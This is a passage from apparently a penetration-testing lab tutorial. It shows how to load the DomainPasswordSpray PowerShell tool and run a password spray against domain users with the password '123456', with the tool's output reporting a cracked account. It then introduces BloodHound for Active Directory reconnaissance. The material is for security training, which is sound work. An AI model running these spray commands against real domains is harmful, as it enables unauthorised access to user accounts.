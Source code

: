 `Import-Module .\DomainPasswordSpray.ps1`

[DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) is a highly effective tool coded in PowerShell specifically designed to execute a password spray attack against users within a domain. By default, it can automatically generate a user list from the domain, but it also allows for a custom user list input, which we will utilize in our task.

 3. **Execution and Verification of the Password Spraying Attack.**
 
`Invoke-DomainPasswordSpray -UserList "$HOME\Desktop\domain_users.txt" -Password "123456" -Verbose`:
```
[*] Using C:\Users\student\Desktop\domain_users.txt as userlist to spray with
[!] Warning: Users will not be checked for lockout threshold.
[*] The domain password policy observation window is set to 30 minutes.
[*] Setting a 30 minute wait in between sprays.

Confirm Password Spray
Are you sure you want to perform a password spray against 6 accounts?
[Y] Yes  [N] No  [?] Help (default is "Y"): Y ←
[*] Password spraying has begun with 1 passwords ←
[*] This might take a while depending on the total number of users
[*] Now trying password 123456 against 6 users. Current time is 1:49 PM ←
[*] Writing successes to
[*] 1 of 6 users tested
[*] 2 of 6 users tested
[*] 3 of 6 users tested
[*] 4 of 6 users tested
[*] 5 of 6 users tested
[+] SUCCESS! User:Johnny Password:123456 ←
[*] 6 of 6 users tested
[*] Password spraying is complete
```

The command above initiates the password spraying attack. `-UserList .\users.txt` specifies our custom list of user accounts and `-Password "123456"` denotes the password to test on each account. The `-Verbose` flag is used to provide detailed output during the process.

Password spraying attacks can often trigger account lockouts if too many attempts are made in a short period. Therefore, tools like DomainPasswordSpray are designed to automatically pause after a specific number of attempts to avoid triggering account lockouts.

### BloodHound - Video

<u>Active Directory (AD) reconnaissance</u> is crucial for assessing AD security. It involves <u>gathering information</u> to identify potential vulnerabilities and weaknesses. BloodHound is a powerful tool for this purpose.

**BloodHound** is a JavaScript web application that <u>employs graph theory to uncover hidden relationships in an AD or Azure environment</u>.
Attackers can identify complex attack paths, while defenders can find and mitigate these paths. BloodHound helps both blue and red teams understand privilege relationships in AD or Azure.

#### Lab Environment
